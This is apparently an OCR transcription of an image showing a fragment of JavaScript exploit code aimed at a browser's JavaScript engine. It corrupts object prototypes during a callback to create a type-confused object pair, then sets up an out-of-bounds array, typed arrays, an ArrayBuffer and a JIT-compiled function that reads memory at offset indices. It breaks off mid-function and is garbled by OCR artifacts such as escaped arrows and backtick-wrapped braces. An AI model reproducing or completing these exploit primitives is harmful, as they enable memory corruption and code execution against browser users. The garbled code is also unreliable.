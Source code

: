 ```
createCorruptedPair = (value_1, value_2) =&gt; `{`
const object_1 = `{`
__proto__: global_object
`}`;
object_1.regular_prop = 1;

setPropertyViaEmbed(object_1, value_2, () =&gt; `{`
Object.setPrototypeOf(global_object, null);
object_1.corrupted_prop = value_1;
`}`);

const object_2 = `{`
__proto__: global_object
`}`;
object_2.regular_prop = 1;

setPropertyViaEmbed(object_2, value_2, () =&gt; `{`
Object.setPrototypeOf(global_object, null);
object_2.corrupted_prop = value_1;
object_1.regular_prop = 1.1
`}`);
return [object_1, object_2];
`}`


const array = [5.5,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,1.1];
array.prop = 1;


const test = new BigUint64Array(2);
var oob_array = [1.1,2.2,3.3];

obj_array = `{` m: 1337, target: gc `}`;
ab = new ArrayBuffer(0x1337);

const [object_1, object_2] = createCorruptedPair(array, test);

jit = (object,index) =&gt; `{`
return [object.corrupted_prop[index],object.corrupted_prop[index-5]];
```